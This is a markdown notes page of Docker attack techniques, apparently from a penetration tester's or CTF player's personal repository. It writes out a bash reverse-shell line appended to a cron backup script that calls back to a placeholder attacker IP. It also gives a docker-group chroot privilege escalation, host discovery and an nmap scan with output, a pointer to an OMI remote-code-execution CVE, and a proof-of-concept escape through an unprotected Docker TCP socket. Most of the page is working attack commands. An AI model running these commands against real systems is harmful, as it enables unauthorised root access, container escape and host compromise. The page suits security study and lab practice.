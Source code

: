 ```yaml
---
title: Docker hacking 🐳
---
```

## Understand how docker works

Go to the [Intro to Docker 🐳](/notes/Info/intro_to_docker.md) note.

## .dockerenv
- If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```

## Being part of the docker group

- If we find out that our victim user belongs to the docker group, we can do the following (based on [GTFObins](https://gtfobins.github.io/gtfobins/docker/)):

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](Pasted%20image%2020240417222812.png)

![](Pasted%20image%2020240417222753.png)

## Escaping a container

- Once we are root by exploiting a capability vulnerability as example, we have to pivot to the host of the container as follows:

- Run `ifconfig` to see if we are connected to the eth0
- Run `arp -a` to discover other hosts on the network

```shell
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:d2:ff:62:fe [ether] on eth0
```

- So now we know that `172.17.0.1` is our host
- Now we want to perform an nmap scan to it, so we will upload a [nmap binary](https://nmap.org/download.html#linux-rpm)
	- Download the source code one
	- Install with the following:

```shell
bzip2 -cd nmap-7.94.tar.bz2 | tar xvf -
cd nmap-7.94
./configure
make
su root
make install
```

- If you haver dependency errors try [this nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
	- With this one just upload it to the container and the add it execution permissions

- Now run:

```shell
./nmap -Pn -T4 -p- 172.17.0.1 --min-rate 5000 -vv

Host is up, received arp-response (-0.0014s latency).
Scanned at 2024-04-21 17:17:26 UTC for 39s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 64
80/tcp   open   http    syn-ack ttl 64
5985/tcp closed unknown reset ttl 64
5986/tcp open   unknown syn-ack ttl 64
MAC Address: 02:42:D2:FF:62:FE (Unknown)

Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 39.69 seconds
           Raw packets sent: 196632 (8.652MB) | Rcvd: 38 (1.620KB)
```

- The port 5986 is for Microsoft's [Open Management Infraestructure (OMI)](https://github.com/microsoft/omi) service for remote configuration management of *nix VMs in Azure. Our host must be a simulation of an Azure Linux VM.
- There is a [CVE for an unauthenticated RCE](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647), and a [public exploit](https://github.com/AlteredSecurity/CVE-2021-38647) for OMI we can test.
	- You can check the exploitation in this notes in [CVE-2021-38647](/notes/Exploits/CVE-2021-38647.md)

## Unprotected TCP socket (port 2375, 2376)

Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 2376/tcp with tls but without tls-auth), an attacker can create a docker container with the '/' path mounted with read/write permissions on the host server that is running the docker container and use chroot to escape the container-jail.

```shell
#PoC
docker -H tcp://<ip>:<port> run --rm -ti -v /:/mnt alpine chroot /mnt /bin/sh
```